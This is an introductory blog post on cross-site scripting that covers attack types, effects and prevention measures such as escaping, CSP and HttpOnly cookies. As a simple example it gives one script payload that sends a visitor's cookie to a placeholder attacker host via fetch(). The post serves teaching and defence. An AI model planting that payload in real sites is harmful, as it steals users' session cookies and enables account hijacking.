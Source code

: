```yaml
---
draft: false
date: 2016-11-01
title: 'Understanding XSS: How Cross-Site Scripting Attacks Work'
tags: ['info-sec', 'xss', 'javascript']
summary: 'Cross-Site Scripting (XSS) is a common web vulnerability where attackers inject malicious scripts into trusted websites. This guide explains how XSS works, particularly stored XSS, and how attackers can steal user data by tricking the browser into executing malicious code.'
---
```


### Introduction

**XSS (Cross-Site Scripting)** is a **web security vulnerability** that allows an attacker to inject **malicious scripts** (usually JavaScript) into **trusted websites**. When a user loads the affected page, the malicious script runs in **their browser**, potentially stealing data or performing actions on their behalf.

---

### 🔍 What does XSS do?

The attacker tricks the site into delivering malicious code (not data) to the user's browser. That code can:

- 🕵️‍♂️ Steal cookies/session tokens
- 📤 Exfiltrate form data
- 👨‍💻 Perform actions as the user (like clicking buttons or changing settings)
- 🪝 Log keystrokes
- 💣 Spread malware

---

### 🎯 Common Targets:

- Input fields (comments, forms)
- URLs and parameters
- Search bars
- User profiles

---

### 🔥 Types of XSS

| Type              | Description                                                                        | Stored in DB? | Executes When?                |
| ----------------- | ---------------------------------------------------------------------------------- | ------------- | ----------------------------- |
| **Stored XSS**    | Malicious script is **saved** (e.g. in a comment or post) and shown to others.     | ✅ Yes        | When victim **views** it      |
| **Reflected XSS** | Script is part of the **URL or form input**, immediately reflected in response.    | ❌ No         | When victim **clicks** a link |
| **DOM-based XSS** | The malicious code is injected **via JavaScript** that manipulates the page (DOM). | ❌ No         | When JS on page executes it   |

---

### 🛡️ How to Prevent XSS

1. **Escape user input**: Encode output to prevent it from being treated as HTML/JS.
2. **Use Content Security Policy (CSP)**: Restrict what scripts can run.
3. **Sanitize input**: Strip or reject dangerous HTML/JS.
4. **HTTPOnly cookies**: Prevent scripts from accessing sensitive cookies.
5. **Framework protections**: Use modern frameworks (React, Angular, etc.) which auto-escape.

---

### 🧠 Simple Example of XSS

Imagine a comment box on a website. A user submits this:

```html
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie)
</script>
```

If the website **doesn't sanitize or encode** this input, the script will run in another user's browser — stealing their session cookie.

---

### Conclusion

| Term       | Meaning                                                                  |
| ---------- | ------------------------------------------------------------------------ |
| **XSS**    | Cross-Site Scripting — injecting malicious scripts into trusted websites |
| **Goal**   | Execute code in another user's browser                                   |
| **Impact** | Data theft, account hijack, defacement                                   |
| **Fix**    | Sanitize/escape input, use CSP, secure coding practices                  |

---
